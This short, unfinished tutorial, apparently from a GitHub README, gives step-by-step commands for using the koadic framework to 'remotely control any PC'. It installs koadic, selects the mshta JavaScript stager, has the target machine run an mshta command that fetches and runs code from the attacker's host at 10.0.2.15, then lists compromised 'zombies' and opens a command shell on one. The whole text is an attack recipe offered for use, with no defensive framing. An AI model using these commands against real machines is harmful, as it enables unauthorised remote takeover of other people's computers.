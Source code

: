 Will be updating first trick for Remotely Control Any PC With koadic tool
Commands and step and by step 
sudo apt install koadic
koadic
use stager/js/mshta
info
go to your target machine
mshta http://10.0.2.15:9999/Vls3U (Endpoint)
zombies
cmdshell 0 (ID)

<!----In Progress---!>
